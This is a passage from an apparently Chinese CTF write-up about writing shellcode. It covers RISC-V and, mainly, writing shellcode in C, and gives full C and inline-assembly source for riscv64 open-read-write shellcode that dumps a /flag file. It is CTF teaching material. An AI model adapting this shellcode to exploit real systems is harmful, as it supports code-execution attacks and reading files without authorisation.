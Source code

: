 不同架构的解决方案可能不尽相同. 笔者也就遇到过 riscv 架构的shellcode. 

## riscv shellcode

笔者之前手写shellcode时都是先手写汇编, 然后使用汇编器汇编得到机器码.

riscv 架构用汇编写shellcode的方法已经有人总结好了经验了, 不再赘述: https://thomask.sdf.org/blog/2018/08/25/basic-shellcode-in-riscv-linux.html

但是这次参加完keen组织的*CTF赛后分享之后, 获知了一种更加通用的shellcode编写方法: 用C语言写shellcode. 因为该方法对于不同架构都大同小异, 通用性很强, 所以单独开一节讲.

## write shellcode in c

思路来源于enlx师傅的分享(28分36秒左右开始): https://www.youtube.com/watch?v=iQYizRu7jks

关于syscall部分思路来源于煜博师傅的exp: https://github.com/BrieflyX/ctf-pwns/blob/master/escape/favourite_architecture/workdir/shellcode2.c.

下边是个riscv64架构的orw shellcode生成过程

c源码如下:

```c
// sc.c
#include <linux/unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <sys/uio.h>
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

static char flag_path[] = "/flag";
// __attribute__((section(".text#"))) static char flag_path[] = "/flag";

int syscall(uint64_t nr, ...);

void _start(){
    char buf[0x400];
    int fd = syscall(__NR_openat, AT_FDCWD, flag_path, 0, 0);
    syscall(__NR_read, fd, buf, sizeof(buf));
    syscall(__NR_write, 1, buf, sizeof(buf));
}

asm(
    "syscall:\n"
        "mv a7, a0\n"
        "mv a0, a1\n"
        "mv a1, a2\n"
        "mv a2, a3\n"
        "mv a3, a4\n"
        "mv a4, a5\n"
        "mv a5, a6\n"
        "ecall\n"
        "ret\n"
);
```
